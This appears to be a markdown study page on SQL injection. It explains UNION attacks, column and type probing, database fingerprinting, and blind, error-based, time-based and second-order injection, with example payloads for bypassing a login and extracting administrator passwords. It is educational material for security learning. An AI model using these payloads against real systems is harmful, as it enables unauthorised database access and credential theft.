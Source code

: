 # SQL Injection

## What is SQL Injection?

SQL injection could allow an attacker to read and/or manipulate the contents of a server's backend database.

##  Impact

SQL injection can lead to sensitive data exposure such as credit card information or unreleased products or access to the backend system.

## Examples

#### Retrieving hidden data

If you manage to cancel out any limitations placed on the data the SQL query can retrieve, you can possibly get access to hidden information or data from unrelated caregories.

You can achieve this by either commenting out any checks performed,

`SELECT * FROM products WHERE category = 'Gifts' -- '`

or remove the checks alltogether:

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --'`

#### Subverting application logic

One can bypass parts of the application logic, e.g. checks for a valid password in order to get access.

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

#### Retrieving data from other tables

If the query results are shown to the user you can display information from other tables, given you know the table and column names.

`SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users -- '`

## UNION attacks

These only work if:

- All of the `SELECT` queries return the same number of columns
- The datatypes of the column are compatible

### Determining the number of columns

#### With `ORDER BY`

Have to application try to order the results by a specific column index. Once it returns an error, you know the previous index was the correct number of columns.

```
' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
etc.
```

#### `UNION` with `NULL` values

The same principle as the above method but using `NULL` values as column names. Again, once you see an error you have the correct number of columns.

```
' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--  
etc.
```

### Determine columns data types

Since you want the results to be returned in string form, you can just replace `NULL` with `'A'` and see if it returns an error. You can also see the actual datatype of the column in the error.

```
' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--
```

### Examining the database

#### Database type and version

- Microsoft, MySQL

	`SELECT @@version`
	
- Oracle

	```
	SELECT banner FROM v$version`
	SELECT version FROM v$instance
	```

- PostgreSQL

	`SELECT version()`
	
#### Database contents

- Microsoft, MySQL, PostgreSQL

	```
	SELECT * FROM information_schema.tables
	SELECT * FROM information_schema.columns WHERE table_name = '<TABLE>'
	```

- Oracle

	```
	SELECT * FROM all_tables
	SELECT * FROM all_tab_columns WHERE table_name = '<TABLE>'
	```
	
Check out the [resources](#resources) for more information about specific syntax.

#### Retrieving multiple values within a single column

If you can display only a single column you can still concatenate data from multiple columns and display it there. Provide a suitable separator for increased visibility.

- Microsoft

	`'foo'+'bar'`
	
- MySQL

	```
	'foo' 'bar'
	CONCAT('foo','bar')
	```
	
- Oracle and PostgreSQL

	`'foo' || 'bar'`

## Blind SQLi

#### What is blind SQL injection

Blind SQLi is when you know a website is vulnerable to SQL injection but it does not return any (visible) output. This makes attacks like e.g. UNION-attacks useless since they rely on seeing the output.

You can still exploit this by either conditional responses, time-based attacks or out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques.

#### Conditional responses

You can use conditional expressions to brute force usernames or passwords if you know the result of a valid query. E.g. if you have a session token and you get logged in after a valid query and not after an invalid one.

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

#### Error based

You can cause exceptions and errors in the database e.g. with division by 0 which might alter the HTTP response in some way.

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

#### Time based

This again uses the same principles as conditional- and error-based testing. If a conditions is valid, you will e.g. cause a 10s delay before the response is sent. 

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

## Second-order SQLi

Second-order SQLi means that you don't immediately get the results of your payload. Only after the payload is stored in the database and used in a different query later will it activate.

An example would be when registering an account on some website. You can incorporate a payload to change the admin password in your chosen username. Later when you e.g. request to change your own password, the application will use your username in the query and your payload activates.

This often happens when developers only secure the initial input for their application and don't think about securing inner functions not available to the user. 

Graphic by PortSwigger ([source](https://portswigger.net/web-security/sql-injection)):

![](sql-injection.svg)

## Methodology

These are typically the steps taken after you found a possible SQL injection:

1. Check for the number of columns with `ORDER BY` or `UNION` attacks
2. Determine which of these columns is able to display strings
3. Determine the type and version of the database in use by trying out different syntax, preferably syntax for displaying the version
4. Get information about the database schema and contents
	- Which tables are available?
	- Which tables are interesting and what columns do they contain?


## Resources

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PayloadsAllTheThings SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection)
- [MySQL 'information_schema' table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)
- [Oracle 'all_tables' table](https://docs.oracle.com/cd/B28359_01/server.111/b28320/statviews_2105.htm#REFRN20286)
- [InfoSecInstitute SQL Injection Intro](https://resources.infosecinstitute.com/topic/sql-injections-introduction/)
